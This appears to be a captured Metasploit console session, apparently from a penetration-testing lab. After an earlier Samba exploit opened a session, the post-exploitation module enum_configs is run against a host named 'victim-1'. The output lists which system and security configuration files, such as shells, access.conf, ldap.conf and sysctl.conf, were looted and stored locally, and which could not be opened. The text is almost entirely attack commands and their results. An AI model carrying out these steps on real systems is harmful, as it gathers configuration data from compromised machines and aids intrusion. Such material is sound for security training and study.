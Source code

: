 ```
msf5 exploit(linux/samba/is_known_pipename) > search enum_configs

Matching Modules
================

   #  Name                            Disclosure Date  Rank    Check  Description
   -  ----                            ---------------  ----    -----  -----------
   1  post/linux/gather/enum_configs                   normal  No     Linux Gather Configurations


msf5 exploit(linux/samba/is_known_pipename) > use post/linux/gather/enum_configs
msf5 post(linux/gather/enum_configs) > show options

Module options (post/linux/gather/enum_configs):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
msf5 post(linux/gather/enum_configs) > set SESSION 8
SESSION => 8
msf5 post(linux/gather/enum_configs) > run

[*] Running module against 192.111.31.3 [victim-1]
[*] Info:
[*]     Debian GNU/Linux 8  
[*]     Linux victim-1 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 GNU/Linux
[-] Failed to open file: /etc/apache2/apache2.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/apache2/ports.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/nginx/nginx.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/snort/snort.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/mysql/my.cnf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/ufw/ufw.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/ufw/sysctl.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/security.access.conf: core_channel_open: Operation failed: 1
[+] shells stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_298702.txt
[+] sepermit.conf stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_528778.txt
[+] ca-certificates.conf stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_551658.txt
[+] access.conf stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_794033.txt
[-] Failed to open file: /etc/gated.conf: core_channel_open: Operation failed: 1
[+] rpc stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_566992.txt
[-] Failed to open file: /etc/psad/psad.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/mysql/debian.cnf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/chkrootkit.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/logrotate.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/rkhunter.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/samba/smb.conf: core_channel_open: Operation failed: 1
[+] ldap.conf stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_240863.txt
[-] Failed to open file: /etc/openldap/openldap.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cups/cups.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/opt/lampp/etc/httpd.conf: core_channel_open: Operation failed: 1
[+] sysctl.conf stored in /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_361315.txt
[-] Failed to open file: /etc/proxychains.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/cups/snmp.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/mail/sendmail.conf: core_channel_open: Operation failed: 1
[-] Failed to open file: /etc/snmp/snmp.conf: core_channel_open: Operation failed: 1
[*] Post module execution completed
```